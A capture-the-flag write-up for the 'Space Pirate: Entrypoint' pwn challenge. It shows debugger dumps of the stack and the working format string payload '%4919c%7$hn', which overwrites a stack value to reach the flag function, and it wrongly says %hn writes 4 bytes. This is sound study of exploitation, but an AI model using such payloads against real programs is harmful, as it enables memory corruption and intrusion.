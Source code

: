 # Space Pirate:Entrypoint

### Challenge: PWN

### Tools: Ghidra, Pwndbg

### Vulnerability: Format String

This challenge is in the form of a format string  vulnerability. Since I had never used one I followed these links for a very good run down on a format string attack.

https://kevinalmansa.github.io/application%20security/Format-Strings

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

Below is the main function where our vulnerability sits. The check_pass function has no actual vulnerability.




We can see that local 48 = 0xdeadbeef but if local_48 = 0xdead1337 then it will open_door which is the function that prints our flag. So our goal is to change the value of 0xdeadbeef to 0xdead1337.
Now the way I actually figured out there was a format string vulnerability was by putting in different % commands to see if anything happened and luckily I found that %p was printing addresses. %s and %n will cause a segmentation fault.




By inputting a couple of %p we can see that the address 0xdeadbeef is at offset 6 and input data is put into offset 7. Anything after becomes arbitrary.

`$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7af2031  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x1f              
$rsp   : 0x007fffffffdce0  →  0x00000000deadbeef
$rbp   : 0x007fffffffdd20  →  0x00555555400e20  →  <__libc_csu_init+0> push r15
$rsi   : 0x007fffffffdcf0  →  "%p %p %p %p %p %p %p %p %p %p\n"
$rdi   : 0x00555555402658  →  "\nYour card is: "
$rip   : 0x00555555400d84  →  <main+142> call 0x5555554008a0 <printf@plt>
$r8    : 0x47              
$r9    : 0x0               
$r10   : 0x007ffff7b80bc0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00555555400940  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffde00  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce0│+0x0000: 0x00000000deadbeef     ← $rsp
0x007fffffffdce8│+0x0008: 0x007fffffffdce0  →  0x00000000deadbeef
0x007fffffffdcf0│+0x0010: "%p %p %p %p %p %p %p %p %p %p\n"      ← $rsi
0x007fffffffdcf8│+0x0018: " %p %p %p %p %p %p %p\n"
0x007fffffffdd00│+0x0020: "p %p %p %p %p\n"
0x007fffffffdd08│+0x0028: 0x000a7025207025 ("%p %p\n"?)
0x007fffffffdd10│+0x0030: 0x007fffffffde00  →  0x0000000000000001
0x007fffffffdd18│+0x0038: 0x10674ff2d0c4b300
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555400d73 <main+125>       call   0x5555554008c0 <read@plt>
   0x555555400d78 <main+130>       lea    rdi, [rip+0x18d9]        # 0x555555402658
   0x555555400d7f <main+137>       mov    eax, 0x0
 → 0x555555400d84 <main+142>       call   0x5555554008a0 <printf@plt>
   ↳  0x5555554008a0 <printf@plt+0>   jmp    QWORD PTR [rip+0x2026ea]        # 0x555555602f90 <printf@got.plt>
      0x5555554008a6 <printf@plt+6>   push   0x4
      0x5555554008ab <printf@plt+11>  jmp    0x555555400850
      0x5555554008b0 <alarm@plt+0>    jmp    QWORD PTR [rip+0x2026e2]        # 0x555555602f98 <alarm@got.plt>
      0x5555554008b6 <alarm@plt+6>    push   0x5
      0x5555554008bb <alarm@plt+11>   jmp    0x555555400850
───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00555555402658 → "\nYour card is: ",
   $rsi = 0x007fffffffdcf0 → "%p %p %p %p %p %p %p %p %p %p\n",
   $rdx = 0x0000000000001f
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sp_entrypoint", stopped 0x555555400d84 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555400d84 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
Python Exception <class 'AttributeError'> partially initialized module 'pwndbg' has no attribute 'commands' (most likely due to a circular import): 
gef➤  x50x $rsp
Undefined command: "x50x".  Try "help".
gef➤  x/50x $rsp
0x7fffffffdce0: 0xdeadbeef      0x00000000      0xffffdce0      0x00007fff
0x7fffffffdcf0: 0x25207025      0x70252070      0x20702520      0x25207025
0x7fffffffdd00: 0x70252070      0x20702520      0x25207025      0x00000a70
0x7fffffffdd10: 0xffffde00      0x00007fff      0xd0c4b300      0x10674ff2
0x7fffffffdd20: 0x55400e20      0x00005555      0xf7a03c87      0x00007fff
0x7fffffffdd30: 0x00000001      0x00000000      0xffffde08      0x00007fff
0x7fffffffdd40: 0x00008000      0x00000001      0x55400cf6      0x00005555
0x7fffffffdd50: 0x00000000      0x00000000      0xd40bc83c      0x088c5f78
0x7fffffffdd60: 0x55400940      0x00005555      0xffffde00      0x00007fff
0x7fffffffdd70: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd80: 0x722bc83c      0x5dd90a07      0xb035c83c      0x5dd91ab8
0x7fffffffdd90: 0x00000000      0x00007fff      0x00000000      0x00000000
0x7fffffffdda0: 0x00000000      0x00000000`  
 

So now that we know where we need to point the format string attack we can set up the command. Also we only need to change the last 2 bytes for the attack

Command = `%4919c%7$hn`	
	- 1337=4919(last 4 of dead1337 from hex) 
  - c= prints character
  - %7=the offset we are placing the $hn 
  - $hn=writes 4 bytes to the target pointer.






With that we have our flag!

When I first started out I think I was diving too deep and trying scripts like `“dead1337””\x20\xdf\xff\xff””%7$n”` to print the flag but eventually realized this challenge was simpler than that.


